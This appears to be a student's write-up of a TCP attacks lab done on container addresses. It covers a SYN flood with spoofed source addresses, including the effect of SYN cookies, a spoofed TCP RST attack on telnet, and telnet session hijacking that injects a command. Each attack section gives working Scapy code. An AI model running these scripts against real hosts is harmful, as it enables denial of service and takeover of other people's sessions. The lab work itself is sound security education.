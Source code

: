 # TCP Attacks Lab

## Task 1.1: Launching the Attack Using Python

In the container the free port is the telnet port, that is 23. So the final program is the following.

```py
ip = IP(dst='10.9.0.5')
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp
while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) 
    pkt[TCP].sport = getrandbits(16) 
    pkt[TCP].seq = getrandbits(32) 
    send(pkt, verbose=0)
```

One instance of the program is enough with a small queue limit (80) and it reaches immediately 60 elements in the queue. We can run different instance of the program if we want to reach the limit faster or with the default maximum queue limit. After running *ip tcp_metrics flush* to remove the mitigation we can see that the telnet connection is unfeasible.

## Task 1.2: Launching the Attack Using C

The *C* program reaches very fast the maximum number of items in the container queue, when this value is set to the default state. Meanwhile with the python program I needed more than one instance of the program running to reach the saturation of the queue when it is in the default state.

In this situation, anyway, the telnet connection is infeasible or it takes several time to be accomplished.

## Task 1.3: Enable the SYN Cookie Countermeasure

In this case the queue fills up but we are able to establish a telnet connection without any problems.

## Task 2: TCP RST Attack on *telnet* Connection

The following code performs the task automatically, sniffing the first packet sent by the client to the server in a *telnet* connection (in my case 10.9.0.5 is the client and 10.9.0.6 is the server), gains the information and send back a spoofed reset packet that closes an opened telnet connection. The correct sequence and ack numbers are fundamental and setting the correct flag as well (“R” for the reset packet).

```py
pkt = sniff(iface="br-c4613239b044", count=1, lfilter=lambda x: x.haslayer(TCP) and x[IP].src == "10.9.0.5")
pkt = pkt[0]
ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
tcp = TCP(sport=pkt[TCP].sport, dport=pkt[IP].dport, flags="R", seq=pkt[TCP].seq+1, ack=pkt[TCP].ack+1)
p = ip/tcp
send(p, verbose=0, iface="br-c4613239b044")
```

## Task 3: TCP Session Hijacking

In this case the program is quite similar to the previous task. With the following code the *telnet* session between client and server will be hijacked and the command *touch random_file* will be executed in the server. It is also possible to notice that the session is hijacked for the fact that in the terminal it won’t be possible to write anything.

```py
pkt = sniff(iface="br-d5b6ec4e964d", count=1, lfilter=lambda x: x.haslayer(TCP) and x[IP].src == "10.9.0.5")
pkt = pkt[0]
ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
tcp = TCP(sport=pkt[TCP].sport, dport=pkt[IP].dport, flags="A", seq=pkt[TCP].seq+1, ack=pkt[TCP].ack+1)
data = "\r touch random_file \r"
p = ip/tcp/data
send(p, verbose=0, iface="br-d5b6ec4e964d")
```

After logging back into the container it is possibile to see that the file has actually been created.

![img1](img1.png)
